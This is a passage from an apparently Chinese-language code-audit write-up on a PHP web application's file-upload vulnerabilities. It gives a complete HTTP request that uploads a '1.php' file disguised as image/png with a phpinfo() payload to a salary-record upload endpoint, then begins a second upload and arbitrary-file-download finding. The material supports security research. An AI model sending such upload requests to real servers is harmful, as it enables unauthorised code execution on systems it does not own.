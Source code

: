 而鉴权的代码是这样子的

[![](assets/1709083162-3adbe4110c8c6d172c76c73257ae6e77.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227110303-b8b982ba-d51c-1.png)

最终报文

```plain
POST /index.php/salary/record/upload HTTP/1.1
Host: xxx
Content-Length: 196
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQayVsySyhSwgpmLk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/upload/upload.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryQayVsySyhSwgpmLk
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryQayVsySyhSwgpmLk--
```

## 上传 2 + 任意文件下载

一样是全局搜索函数​`move_uploaded_file`​

找到`\web\static\lib\weboffice\js\OfficeServer.php`​这个文件 (因为是在`static`​目录下于是就尝试访问下 (因为很有可能是静态的资源可以直接访问))
